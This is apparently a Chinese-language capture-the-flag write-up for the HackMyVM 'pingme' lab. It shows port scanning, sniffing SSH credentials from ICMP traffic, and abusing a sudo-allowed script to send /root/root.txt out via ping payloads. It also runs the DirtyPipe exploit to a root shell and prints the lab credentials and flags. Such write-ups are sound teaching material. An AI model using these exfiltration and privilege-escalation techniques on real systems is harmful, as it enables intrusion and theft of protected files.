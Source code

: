 ### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.117
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-17 00:44 EDT
Nmap scan report for 192.168.56.117
Host is up (0.00091s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:F8:90:60 (Oracle VirtualBox virtual NIC)
```

### web端

![image-20241017124538993](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241017124538993.png)

他会自动加载我本机的ip

抓包看了一下，XFF注入也是不行的

### 利用wireshark抓包

ping命令发的包是icmp协议

```bash
tcpdump -i eth0 icmp -w file.pacpng
```

![image-20241017125020027](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241017125020027.png)

找到一对凭据

```
pinger:P!ngM3
```

### SSH登录

```bash
ssh pinger@192.168.56.117
```

### 提权

#### user‘s flag

```bash
pinger@pingme:~$ cat user.txt 
HMV{ICMPisSafe}
```

```bash
pinger@pingme:~$ sudo -l
Matching Defaults entries for pinger on pingme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinger may run the following commands on pingme:
    (root) NOPASSWD: /usr/local/sbin/sendfilebyping
```

看一下内容

```bash
#!/bin/bash
if [ "$#" -ne 2 ]; then
echo "sendfilebyping <ip address> <path to file>"
echo "Only sends 1 char at a time - no error checking and slow"
echo "(Just a proof of concept for HackMyVm - rpj7)"
exit 1
fi

INPUT=$2
TARGET=$1
i=0

while IFS= read -r -n1 char
do
    #One character at a time
    HEXVAL=$( echo -n "$char" |od -An -t x1|tr -d ' ')
    [  -z "$HEXVAL" ] && HEXVAL="0a"
    /bin/ping $TARGET -c 1 -p $HEXVAL -q >/dev/null
    ((i=i+1))
    echo "Packet $i"
done < "$INPUT"

# This will send a file
# Not quite got around to catching it yet
# Shouldnt be too hard should it ?...
# just need to get the pcap , tshark and get the last byte
```

它会利用`ping`一个字符这样的发送文件

尝试发送`/root/root.txt`

```bash
sudo /usr/local/sbin/sendfilebyping 192.168.56.101 /root/root.txt
```

同样，wireshark进行抓包

![image-20241017125636701](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241017125636701.png)

利用`tshark`将信息提取出来

```bash
tshark -r icmp.pacpng -Y icmp -e data.data -T fields > 1.txt
```

![image-20241017130651798](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241017130651798.png)

这里手动去重

![image-20241017130830410](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241017130830410.png)

```
484d567b49434d5063616e42654162757365647d0a
```

#### root's flag

```
HMV{ICMPcanBeAbused}
```

#### CVE-2022-0847-DirtyPipe提权

```
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
```

```bash
pinger@pingme:/tmp$ ./exploit 
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
ls 
root.txt
```

